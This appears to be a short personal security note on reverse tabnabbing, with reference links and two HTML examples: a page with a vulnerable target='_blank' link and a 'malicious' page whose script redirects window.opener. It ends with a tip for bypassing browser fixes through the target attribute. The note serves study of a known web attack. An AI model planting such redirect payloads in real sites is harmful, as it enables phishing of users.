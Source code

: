 # Reverse Tabnabbing

see box: [[../../WriteUps/HackTheBox/Developer/WriteUp|Custom Link]]


Background Infos:  https://html.spec.whatwg.org/multipage/browsers.html#determining-the-origin

HTB Example: https://blog.0xprashant.in/posts/htb-bug/

OWASP: https://owasp.org/www-community/attacks/Reverse_Tabnabbing

![[docs/Pasted image 20211031000935.png]]

Examples
Vulnerable page:
```html
<html>
 <body>
  <li><a href="bad.example.com" target="_blank">Vulnerable target using html link to open the new page</a></li>
  <button onclick="window.open('https://bad.example.com')">Vulnerable target using javascript to open the new page</button>
 </body>
</html>
```

Malicious Site that is linked to:

```html
<html>
 <body>
  <script>
   if (window.opener) {
      window.opener.location = "https://geizhals.de";
   }
  </script>
 </body>
</html>
```



# fixed in many browsers

target="_blank" is fixed in many browsers but if you can control the target attribute you can still use something like target="aa" to get this working